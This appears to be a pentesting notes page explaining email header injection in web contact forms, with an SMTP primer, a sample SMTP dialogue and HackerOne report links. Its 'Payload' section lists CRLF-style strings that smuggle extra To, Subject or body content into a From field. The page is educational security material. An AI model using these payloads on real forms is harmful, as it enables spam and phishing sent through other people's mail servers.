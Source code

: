 ## Email Header Injection

Email header injection can happen in web contact forms that let the user send an email. If the contact form is vulnerable, an attacker can inject email headers into the email and use it for their own purposes.


Most of the time such a contact form would set SMTP headers such as `From` and `Reply-to` to make it easy for the recipient to treat communication from the contact form just like they would any other email.

## Impact
As HTML injection worked in email an attacker can trick victim to click on such hyperlinks to redirect him to any malicious site and also can host a XSS page. All this will surely cause some damage to victim. This could lead to users being tricked into giving logins away to malicious attackers.

## How SMTP Works

The SMTP protocol (Simple Mail Transfer Protocol) is one of the oldest protocols of the Internet. Originally, it just accepted a small set of commands that simply stated who the email sender is and who the recipient is

- `MAIL FROM:` This command sets the envelope sender.
- `RCPT TO:` This command sets the envelope recipient. It can be used multiple times if you want the message to reach many people at once.
- `DATA:` This command begins the email payload. The payload contains email headers and the message body separated by a single empty line.

## Here is an example of a simple SMTP dialogue:
````
> MAIL FROM:<postmaster@acunetix.com>
< 250 OK
> RCPT TO:<anna@example.com>
< 250 OK
> RCPT TO:<barbara@example.com>
< 250 OK
> DATA
< 354 Send message content; end with <CRLF>.<CRLF>
> Content-Type: text/html
> Date: Wed, 25 Dec 2019 00:00:01
> From: Santa Claus <santaclaus@acunetix.com>
> Subject: Your Gifts Are Here
> To: Not Naughty <notnaughty@example.com>
>
> Hello!
> Your gifts are here, come to the tree!
> -- 
> Santa
> .
< 250 OK
````
The above email would be received by anna@example.com and barbara@example.com. However, they would see that it was sent by Santa Claus <santaclaus@acunetix.com> (not postmaster@acunetix.com) and they would see that the recipient is Not Naughty <notnaughty@example.com>.

## How does the injection is work

Most email libraries in web programming languages usually do not let you add envelope commands directly. However, they take the email headers that you supply and often convert them into equivalent SMTP commands. For example, if you add a `BCC` header, the email library may take the content of that header and create additional `RCPT TO` commands.

## How does Cc and Bcc in SMTP work
[Refer this link](https://mailtrap.io/blog/cc-bcc-in-smtp/)

## Payload
  #### 1 - Inject Cc and Bcc after sender argument
  - `From:sender@domain.com%0ATo:attacker@domain.com`
  - The message will be sent to the original recipient from the attacker account.
  #### 2 - Inject Subject argument
  - `From:sender@domain.com%0ASubject:This is%20Fake%20Subject`
  - The fake subject will be added to the original subject and in some cases will replace it. It depends on the mail service behavior.
  #### 3  - Change the body of the message
  - `From:sender@domain.com%0A%0AMy%20New%20%0Fake%20Message.`
  - Inject a two-line feed, then write your message to change the body of the message.
  
## Findings
- **1 SMTP header injection leads to (mass) arbitrary email sending
Share:** [[link]](https://hackerone.com/reports/347439)
- **2 HTML injection in email content** [[link]](https://hackerone.com/reports/786976)

## Reference
- [Acunetix](https://www.acunetix.com/blog/articles/email-header-injection/#:~:text=What%20is%20email%20header%20injection,it%20for%20their%20own%20purposes.)
- [Hacktricks](https://book.hacktricks.xyz/pentesting-web/email-header-injection)

